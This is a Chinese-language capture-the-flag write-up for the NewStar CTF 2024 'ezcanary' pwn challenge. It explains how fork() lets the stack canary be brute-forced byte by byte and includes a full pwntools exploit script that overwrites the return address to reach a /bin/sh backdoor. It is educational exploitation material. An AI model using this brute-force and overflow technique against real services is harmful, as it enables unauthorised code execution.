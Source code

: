```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# ezcanary

文件到手先checksec一下，看一下是64位程序，除了PIE其他保护全开

![checksec](/assets/images/wp/2024/week3/ezcanary_1.png)

给了后门地址，因为没有开PIE所以可以直接利用

```plaintext
.text:0000000000401236 ; __unwind {
.text:0000000000401236                 endbr64
.text:000000000040123A                 push    rbp
.text:000000000040123B                 mov     rbp, rsp
.text:000000000040123E                 sub     rsp, 10h
.text:0000000000401242                 mov     rax, fs:28h
.text:000000000040124B                 mov     [rbp+var_8], rax
.text:000000000040124F                 xor     eax, eax
.text:0000000000401251                 lea     rdi, command    ; "/bin/sh"
.text:0000000000401258                 call    _system
```

再看main函数

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(argc, argv, envp);
  memset(s, 0, 0x50uLL);
  do
  {
    if ( !fork() )
    {
      puts(&byte_402031);
      puts(&byte_402050);
      puts(&byte_40208B);
      read(0, s, 0x100uLL);
      return 0;
    }
    wait(0LL);
    puts(&::s);
    read(0, s, 0x100uLL);
  }
  while ( strcmp(s, "cat flag\n") );
  puts("flag is one_by_one_bruteforce");
  read(0, s, 0x100uLL);
  return 0;
}
```

很明显的有三个read都可以栈溢出，程序是do...while...的循环，当第二次输入为“cat flag\n”时结束循环并读取第三次输入。但是由于程序开启了canary保护，所以并不能直接ret2backdoor，而需要先想办法绕过canary才能成功修改返回地址。

不管是fork()函数还是最后puts的“one_by_one_bruteforce”都在提示本题可用逐字节爆破的方式获得canary

:::tip
fork()函数具有以下两个特点：

1. 由于子进程和父进程的栈结构是完全相同的，因此保存在子进程栈上的随机数与保存在父进程栈上的随机数完全相同。换句话说，所有子进程和父进程共享同一个 canary 。

2. 子进程的崩溃不会导致父进程崩溃。
这两个特点意味着当程序调用 fork() 函数创建了足够多的子进程时，我们可以不断访问子进程，直到找到一个不会使子进程崩溃的随机数，这个随机数也就是真正的 canary 。

:::

64位要爆破7个字节，运气不好的话要多等会

```python
#_*_ coding:utf-8 _*_
from pwn import *
elf = ELF("./ezcanary")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])
p = remote('127.0.0.1',8071)
def aaa() :
  global can
  for i in range(256):
    payload1 = (0x60-8) * b'a' + can + p8(i)
    p.sendafter('你觉得呢？\n',payload1)
    info = p.recvuntil('\n')
    if b"*** stack smashing detected ***" in info :
        p.send('n\n')
        continue
    else :
        can += p8(i)
        break
     
def bbb():
  global can
  can = b'\x00'
  for i in range(7):
    aaa()
    if i != 6 :
      p.send('a\n')
    else :
      p.sendline('cat flag')
      

bbb()
canary = u64(can)  
print(hex(canary))
getshell = 0x401251
payload2 = b"a" * (0x60-8) + p64(canary) + p64(0) + p64(getshell)
p.sendafter("bruteforce\n", payload2)
p.interactive()
```
